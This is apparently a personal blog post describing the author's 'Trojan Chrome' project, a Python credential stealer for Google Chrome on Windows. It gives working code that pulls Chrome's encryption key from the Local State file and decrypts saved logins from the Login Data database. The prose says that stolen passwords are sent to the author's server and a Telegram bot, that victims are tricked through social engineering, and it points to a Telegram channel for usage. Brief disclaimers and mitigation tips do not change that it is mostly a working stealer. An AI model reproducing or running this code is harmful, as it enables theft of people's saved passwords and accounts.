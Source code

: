 ```yaml
---
title: "Trojan Google Chrome🔍"
date: 2025-01-24 12:36:02 +0330
categories: [Learning, Trojan]
tags: [Trojan, Python, Data]
description: "Stealing Google data with Trojan"
image: assets/img/c-trojan/img.png
---
```



# Trojan Chrome: A Detailed Explanation

## ⚡ Overview
This project demonstrates how sensitive user data, such as saved passwords and login information stored in Google Chrome, can be accessed and potentially exploited using a Python-based tool. This type of script is often categorized as a "trojan" due to its malicious intent.

> **Warning:** This explanation is for educational purposes only. Unauthorized access to user data is illegal and unethical.

---

## 📃 How It Works

### Key Components
1. **Extracting Chrome's Secret Key**
   - Chrome encrypts saved passwords using the Windows DPAPI (Data Protection API). The script retrieves the encryption key from Chrome's `Local State` file.

2. **Decrypting Saved Passwords**
   - The script reads the `Login Data` SQLite database in Chrome's user data folder.
   - It decrypts passwords using the extracted secret key and AES decryption.

3. **Sending Data to a Remote Server**
   - After extracting the data, the script uploads it to a remote server via an HTTP POST request.

### Script Workflow
1. Locate Chrome's `Local State` file to fetch the encryption key.
2. Copy the `Login Data` database for analysis.
3. Query the database for saved credentials.
4. Decrypt credentials using the secret key.
5. Send the extracted data to a pre-configured remote server.

---
## 👀 My Trojan Project

### Key Components
 1. The structure of this project is based on social engineering, where the hacker must implement a Trojan on the target system to deceive the victim.
 2. The Trojan finds the victim's data as quickly as possible and converts the person's information, such as websites, emails, and saved passwords, to txt.
 3. Now the data is sent to my server and with the help of HTTP, the data is saved on the server and sent to the Telegram bot I created.
 4. For more information and usage, visit channel <strong></strong> 
  <a href="https://t.me/i2xAm1r" target="_blank">
      <i class="fab fa-telegram"></i> Telegram
### Photo :

<div style="text-align: center; margin: 20px 0;">
    <img src="assets/img/c-trojan/trojan.jpg" alt="Codespaces" width="750" height="200">
</div>
<div style="text-align: center; margin: 20px 0;">
    <img src="assets/img/c-trojan/telegram.png" alt="Codespaces" width="750" height="200">
</div>

---
## 💻 Code Walkthrough

```python
# Import necessary libraries
import os
import re
import json
import base64
import sqlite3
import win32crypt
from Crypto.Cipher import AES
import requests

# Define paths to Chrome's files
CHROME_PATH_LOCAL_STATE = os.path.normpath(r"%s\AppData\Local\Google\Chrome\User Data\Local State" % os.environ['USERPROFILE'])
CHROME_PATH = os.path.normpath(r"%s\AppData\Local\Google\Chrome\User Data" % os.environ['USERPROFILE'])

# Extract the secret key from Local State file
def get_secret_key():
    with open(CHROME_PATH_LOCAL_STATE, "r", encoding='utf-8') as file:
        local_state = json.load(file)
    encrypted_key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
    secret_key = win32crypt.CryptUnprotectData(encrypted_key[5:], None, None, None, 0)[1]
    return secret_key

# Decrypt saved passwords
def decrypt_password(ciphertext, secret_key):
    iv = ciphertext[3:15]
    encrypted_password = ciphertext[15:-16]
    cipher = AES.new(secret_key, AES.MODE_GCM, iv)
    return cipher.decrypt(encrypted_password).decode()

# Extract and decrypt data
def extract_data():
    secret_key = get_secret_key()
    db_path = os.path.join(CHROME_PATH, "Default", "Login Data")
    conn = sqlite3.connect(db_path)
    cursor = conn.cursor()
    cursor.execute("SELECT action_url, username_value, password_value FROM logins")
    for url, username, password in cursor.fetchall():
        decrypted_password = decrypt_password(password, secret_key)
        print(f"URL: {url}, Username: {username}, Password: {decrypted_password}")
    conn.close()
```

---

## ✅ Ethical Considerations
- **Legality**: Accessing someone else’s data without permission is illegal and punishable under various laws.
- **Ethics**: Creating or distributing malicious software is unethical.
- **Responsibility**: This knowledge should only be used to enhance security awareness and protect systems from similar attacks.

---

## ⚙️ Mitigation Techniques
To protect against similar attacks:
1. Use strong and unique passwords for different accounts.
2. Regularly clear your browser’s saved credentials.
3. Enable two-factor authentication (2FA) for added security.
4. Keep your browser and operating system updated.
5. Use trusted antivirus and anti-malware solutions.

---

## 🤝 Disclaimer
This document and its accompanying code are provided for **educational purposes only**. The author is not responsible for any misuse or damage caused by the use of this information.

--- 
## 🔗 Discord
[![Discord server](https://discordapp.com/api/guilds/938143724565835848/embed.png?style=banner3)](https://discord.gg/WtPzSe94)

---



